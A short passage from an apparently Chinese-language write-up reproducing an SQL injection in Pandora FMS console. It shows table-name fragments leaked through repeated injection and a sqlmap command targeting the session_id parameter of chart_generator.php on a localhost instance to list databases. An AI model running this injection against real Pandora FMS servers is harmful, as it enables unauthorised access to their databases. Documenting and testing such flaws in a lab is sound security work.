 ![image-20250403175151970](Pandora/image-20250403175151970.png)

```
_cache,tservice_element,tuser_

拼接第一次注入的内容
tvisual_console_elements_cache,tservice_element,tuser_

反复往后读即可
```

### sqlmap

#### 数据库名

```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch --dbs 
```

![image-20250403175405485](Pandora/image-20250403175405485.png)
